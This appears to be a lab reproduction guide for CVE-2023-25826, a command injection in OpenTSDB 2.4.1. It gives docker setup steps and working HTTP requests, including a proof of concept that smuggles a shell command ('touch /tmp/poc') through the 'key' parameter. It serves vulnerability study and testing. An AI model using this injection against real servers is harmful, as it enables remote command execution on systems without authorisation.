


# OpenTSDB arbitrary commands injection（CVE-2023-25826）

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.
In version 2.4.1 and earlier, there is a command injection vulnerability. This vulnerability is actually due to an incomplete fix for CVE-2020-35476, so the entire reproduction process is similar to the previous one.

References:

- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275

## Environment

Execute the following command to start a OpenTSDB server 2.4.1:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

Simialar as CVE-2020-35476, you need to know the name of a metric, visit `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`to find out the metric list.

Due to the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, you can create a metric named `sys.cpu.nice` through following request, if the metrics are empty:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Then the POC is different here, with the difference in the "key" parameter.

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```



`touch /tmp/poc` has been successfully executed:


